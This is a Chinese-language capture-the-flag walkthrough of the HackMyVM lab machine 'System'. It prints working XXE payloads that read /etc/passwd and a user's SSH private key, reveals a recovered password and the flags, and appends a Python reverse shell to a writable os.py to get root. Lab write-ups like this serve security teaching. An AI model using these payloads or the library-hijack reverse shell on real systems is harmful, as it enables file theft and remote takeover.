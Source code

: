 # System

2025.01.03 https://hackmyvm.eu/machines/machine.php?vm=System

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 服务首页是个注册页面，源码没看到什么信息。目录扫描 http://192.168.5.40/magic.php 但是没看到提交参数的地方。

首页是个注册页面，查看 http 提交请求，发现使用的是 xml，可能存在 xxe 漏洞，进行测试：

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<details><email>&xxe;</email><password>1</password></details>
```

上面可以读取到 /etc/passwd 证明漏洞存在，并且发现用户 david。用 bp 跑一下 linux 常用文件字典，看看能读取到哪些文件。

最终读取到 david 用户的私钥文件：

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/david/.ssh/id_rsa"> ]>

<details><email>&xxe;</email><password>1</password></details>
```

将得到的内容进行 base64 解码，但是用私钥登陆不上，继续爆一下/home/david 目录下有什么吧，发现 /home/david/.viminfo 中记录操作了一个文件，/usr/local/etc/mypass.txt 读取其内容发现了一个字符串，像是密码: h4ck3rd4v!d

尝试 ssh 登陆 david，登陆成功，获得了 user flag：

```
david@system:~$ cat user.txt
79f3964a3a0f1a050761017111efffe0
```

枚举其他信息，suid sudo crontab 都没发现什么，上传 pspy 看看后台有没有跑什么，发现： /bin/sh -c /usr/bin/python3.9 /opt/suid.py 读取其内容：

```
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
```

根据上述 python 代码逻辑，发现 /usr/lib/python3.9/os.py 我们有权限可写，将反弹 shell 写入到其末尾：

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /usr/lib/python3.9/os.py
```

反弹后，得到了 root flag：

```
root@system:~# cat root.txt
cat root.txt
3aa26937ecfcc6f2ba466c14c89b92c4
```
